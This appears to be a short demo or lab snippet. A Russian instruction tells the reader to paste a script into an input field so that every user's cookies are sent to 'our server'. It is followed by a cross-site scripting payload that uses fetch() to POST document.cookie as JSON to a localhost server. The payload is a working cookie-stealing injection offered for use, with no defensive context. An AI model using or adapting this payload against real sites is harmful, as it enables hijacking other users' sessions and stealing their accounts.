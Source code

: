 Укажите скрипт в поле ввода и куки каждого пользователя будут оправляться на наш сервер

<script>fetch('http://localhost:4200', {
    method: 'post',
    body: JSON.stringify(document.cookie),
    headers: {
        'content-type': 'application/json'
    }
}).then(alert(''))</script>
